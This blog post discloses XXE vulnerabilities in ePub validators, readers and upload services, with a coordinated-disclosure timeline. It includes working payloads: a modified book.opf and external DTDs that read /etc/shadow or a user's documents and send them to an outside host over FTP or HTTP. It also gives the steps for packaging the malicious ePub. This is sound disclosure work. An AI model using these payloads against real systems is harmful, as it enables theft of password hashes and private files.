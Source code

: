 ```yaml
---
layout: post
title:  "This book reads you - exploiting services and readers that support the ePub book format"
date:   2017-01-25 12:00:00
categories: epub
---
```


> "We use the ePub format - it is the most popular open book format in the world. We’re very excited about this." - Steve Jobs, 2010 (original iPad launch)

TLDR; Applying a familiar XXE pattern to exploit services & readers that consume the ePUB format. Exploiting vulnerabilities in **EpubCheck <= 4.0.1** (ePub Validation Java Library & tool), **Adobe Digital Editions <= 4.5.2** (book reader), **Amazon KDP** (Kindle Publishing Online Service), **Apple Transporter**, and **Google Play Book uploads**, etc.

ePub is a standard format for open books maintained by [IDPF](http://www.idpf.org/) (International Digital Publishing Forum). IDPF is a trade and standards association for the digital publishing industry, set up to establish a standard for ebook publishing. Their membership list: [http://idpf.org/membership/members](http://idpf.org/membership/members)

An epub is based on XML, CSS, XHTML, etc web content zipped together into a single package, which ends in the extension .epub. Depending on the reader device/application support, [ePub](http://www.idpf.org/epub/30/spec/epub30-changes.html#sec-new-changed) can also support interactivity using Flash and Javascript.

ePub uses XML metadata to define the document structure, support digital signatures, digital rights (DRM) etc.

eg., epub archive:
{% highlight javascript %}
Archive:  book.epub
  Length      Date    Time    Name
---------  ---------- -----   ----
       20  04-09-2014 15:41   mimetype
     2189  04-09-2014 15:41   toc.ncx
    39962  04-09-2014 15:41   OEBPS/chapter-001-chapter-i.html
    41745  04-09-2014 15:41   OEBPS/chapter-002-chapter-ii.html
      684  04-09-2014 15:41   OEBPS/title-page.html
      557  04-09-2014 15:41   OEBPS/front-cover.html
    42220  04-09-2014 15:41   OEBPS/chapter-003-chapter-iii.html
     1185  04-09-2014 15:41   OEBPS/copyright.html
      884  04-09-2014 15:41   OEBPS/table-of-contents.html
   234790  04-09-2014 15:41   OEBPS/assets/pressbooks-promo.png
    33684  04-09-2014 15:41   OEBPS/assets/MedulaOne-Regular.ttf
   244146  04-09-2014 15:41   OEBPS/assets/themetamorphosis_1200x1600.jpg
      661  04-09-2014 15:41   OEBPS/pressbooks-promo.html
    27328  04-09-2014 15:41   OEBPS/jackson.css
     3494  04-09-2014 15:41   book.opf
      240  04-09-2014 15:41   META-INF/container.xml
      157  04-09-2014 15:41   META-INF/com.apple.ibooks.display-options.xml
---------                     -------
   673946                     17 files
{% endhighlight %}

eg., contents of META-INF/container.xml
{% highlight xml %}
<?xml version="1.0"?>
<container version="1.0" xmlns="urn:oasis:names:tc:opendocument:xmlns:container">
 <rootfiles>
 <rootfile full-path="OEBPS/book.opf"
 media-type="application/oebps-package+xml" />
 </rootfiles>
</container>
{% endhighlight %}

eg., contents of book.opf
{% highlight xml %}
<?xml version="1.0" encoding="UTF-8" ?>
    <package version="2.0" xmlns="http://www.idpf.org/2007/opf" unique-identifier="PrimaryID">
    <metadata xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:opf="http://www.idpf.org/2007/opf">
    <dc:title>My Book </dc:title>
    <dc:language>en</dc:language>
    <dc:identifier id="PrimaryID" opf:scheme="URI">http://mybook.com</dc:identifier>
    <dc:description>Description</dc:description>
    <dc:creator opf:role="aut">Author</dc:creator>
    <dc:publisher>Publisher.com</dc:publisher>
    <meta name="cover" content="cover-image" />
</metadata>
{% endhighlight %}

When I first started looking into this, I learned about a tool/Java library called [EpubCheck](https://github.com/IDPF/epubcheck/releases) (provided by IDPF) that is used to validate books in the ePub format. Book publishers tend to perform a validation step using something like this to check the format validity. The validator tool/library was vulnerable to XXE, so any application that relies on a vulnerable version to check the validity of a book would be susceptible to this type of attack. 

#### Modifying an existing ePub file to test for XML parsing vulnerabilities:

* __curl https://s3-us-west-2.amazonaws.com/pressbooks-samplefiles/MetamorphosisJacksonTheme/Metamorphosis-jackson.epub -o book.epub__

* __unzip book.epub; rm book.epub__

* __Edit any of the files that contain XML metadata.__ 

eg., book.opf  (XXE - XML External Entities pattern)
{% highlight xml %}
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE a [<!ENTITY % b SYSTEM "http://123.123.123.123/dtd">%b;%c;]><package version="2.0" xmlns="http://www.idpf.org/2007/opf" unique-identifier="PrimaryID">
<metadata xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:opf="http://www.idpf.org/2007/opf">
<dc:title>Metamorphosis</dc:title>
<dc:language>en</dc:language>
<dc:identifier id="PrimaryID" opf:scheme="URI">http://metamorphosiskafka.pressbooks.com</dc:identifier>
<dc:description>&send;</dc:description>
{% endhighlight %}

* __zip -r book.epub *__

* __Point at a HTTP server to serve the following contents, and specifying a FTP server to recieve the specified file__

{% highlight xml %}
<!ENTITY % d SYSTEM "file:///etc/shadow">
<!ENTITY % c "<!ENTITY send SYSTEM 'ftp://123.123.123.123/%d;'>">
{% endhighlight %}

**EpubCheck <= 4.0.1** 

There was a online instance of EpubCheck, that would accept user uploads and perform validation on the format. This provides an example of how this vulnerability could be used to attack online services that support ePub in some way, if they are using a vulnerable version of EpubCheck to validate the uploaded file. 

Uploading our created file:
![Image](/assets/epub/upload.png)

HTTP listener receiving the dtd request when parsed by the remote XML parser, and custom FTP listener receiving the file (I didn't think it would work, but specified /etc/shadow as the file to retrieve).  
![Image](/assets/epub/EPubCheck.png)

This means that we accidentally retrieved the /etc/shadow file. Public facing web apps running as root/system in prod... 😫

A few examples of other services, and applications I came across that were vulnerable:

**Amazon KDP** which allows publishers to upload books, was susceptible to XXE when converting books to the Kindle format. 
![Image](/assets/epub/AMZ1.png)
![Image](/assets/epub/AMZ2.png)

**[Adobe Digital Editions](http://www.adobe.com/solutions/ebook/digital-editions.html) <= 4.5.2** (book reader) when a user opens a book, this would allow files to be taken from their system. [CVE-2016-7889](https://helpx.adobe.com/security/products/Digital-Editions/apsb16-45.html).

External DTD specifying the file to retrive:

{% highlight xml %}
<!ENTITY % d SYSTEM "file:///c:/Users/Documents/secret.txt">
<!ENTITY % c "<!ENTITY send SYSTEM 'http://123.123.123.123/exfil/%d;'>">
{% endhighlight %}

eg., Retrieving secret stuff from a users Windows documents folder:
![Image](/assets/epub/ADE.png)

**Apple Transporter** (underlying tool used to validate metadata and assets and deliver them to the iTunes Store), [CVE-2016-7666](https://support.apple.com/en-us/HT207432).
![Image](/assets/epub/Transporter.png)

**[Google Play Book uploads](https://play.google.com/books/uploads)** did not allow external entity processing, but was vulnerable to XML exponential entity expansion [billion laughs](https://cwe.mitre.org/data/definitions/776.html). When uploading a ePub with this pattern, it would spend about 45 minutes trying to process the file before returning an error condition. Google confirmed this on their side.

There are more things going on with the ePub format beyond the familiar patterns shown here. Some applications will allow Flash to be run, and Javascript execution in the context of the book reader, so you can imagine this can be used to perform some attacks; currently waiting on vendor fixes before talking about this. 

Disclosure timeline stuff:

* Sep 2016: Reported XXE in EpubCheck <= 4.0.1.
* Sep 2016: Reported XXE in Adobe Digital Editions <= 4.5.2.
* Sep 2016: Reported XXE in Amazon KDP.
* Oct 2016: Reported XXE in Apple Transporter
* Oct 2016: Reported XML exponential entity expansion in play.google.com book uploads.
* Dec 2016: Coordinated disclosure.
* Jan 2017: This blog post (lots of time for users to patch).

Thanks to [CERT/CC](http://www.cert.org/) for their help in coordinating with different vendors & IDPF, and setting a disclosure timeline. I only tested a handful of digital readers and services, so if you find other vulnerable readers/services, tell CERT/CC (they were tracking the ePubCheck issue as VU#779243).

If you got this far, thanks for reading. 👋 

[@craig](https://twitter.com/craig_arendt)


